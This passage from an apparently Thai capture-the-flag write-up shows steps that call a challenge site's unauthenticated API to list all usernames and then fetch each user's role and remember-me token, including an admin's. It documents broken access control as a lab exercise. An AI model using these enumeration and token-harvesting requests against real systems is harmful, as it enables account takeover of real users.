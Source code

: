 ### 🔎 3. ค้นหา Username ทั้งหมด

เรียกใช้งาน API `get_alluser`:

🔗 **URL:** [https://web1.ctf.p7z.pw/api.php?action=get\_alluser](https://web1.ctf.p7z.pw/api.php?action=get_alluser)

**ผลลัพธ์:**

```json
[
  "test",
  "admin-uat"
]
```

พบ Username `admin-uat` ที่น่าจะเป็นผู้ดูแลระบบ

-----

### 🔑 4. ดึงข้อมูลผู้ใช้

ทดสอบเรียก API `get_userinfo` สำหรับแต่ละผู้ใช้:

#### 🔹 ผู้ใช้ `test`

🔗 **URL:** [https://web1.ctf.p7z.pw/api.php?action=get\_userinfo\&user=test](https://web1.ctf.p7z.pw/api.php?action=get_userinfo&user=test)

**ผลลัพธ์:**

```json
{
  "username": "test",
  "role": "user",
  "remember_me_token": "b81943ba-d1c5-495a-8427-4711c39256bf",
  "status": "Novice scammer, successfully conned 3 victims."
}
```

#### 🔹 ผู้ใช้ `admin-uat`

🔗 **URL:** [https://web1.ctf.p7z.pw/api.php?action=get\_userinfo\&user=admin-uat](https://web1.ctf.p7z.pw/api.php?action=get_userinfo&user=admin-uat)

**ผลลัพธ์:**

```json
{
  "username": "admin-uat",
  "role": "admin",
  "remember_me_token": "73eb7063-f8c3-4e50-bea2-07c05681aa92",
  "status": "Gang boss, oversees all operations."
}
```

-----
